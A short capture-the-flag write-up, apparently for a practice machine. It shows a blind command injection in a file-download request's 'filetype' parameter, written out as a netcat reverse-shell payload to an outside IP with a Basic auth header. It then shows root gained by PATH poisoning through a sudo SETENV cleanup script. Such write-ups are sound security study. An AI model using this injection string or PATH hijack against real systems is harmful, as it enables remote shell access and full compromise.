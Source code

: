Login credentials were hidden in a url in the source code of the web page.

Blind command injection in the _filetype_ parameter of the post request for downloading the picture:
```
photo=masaaki-komori-NYFaNoiPf7A-unsplash.jpg&filetype=jpg;+rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.16.52+8888+>/tmp/f;&dimensions=10x10
```
with the header:
`Authorization: Basic cEgwdDA6YjBNYiE=`

This spawned a shell in my listener and I got the user flag.

### Privesc
It had to do with the _cleanup.sh_ file. However I found the flag in a /tmp/test/root.txt, so I am not quite sure how it worked, but I am trying to figure it out:

It is definitely that I must create a different _cat_ file with malicious code, and place it in a _PATH_ with _/bin/_


_With SETENV, you allow the user to control the environment for the privileged process, without any restrictions whatsoever_

It was indeed path poisoning:
1. create a _find_ file in _/tmp_ with the contents
`/bin/bash -p`
2. `sudo PATH=/tmp:$PATH /opt/cleanup.sh`
root shell:)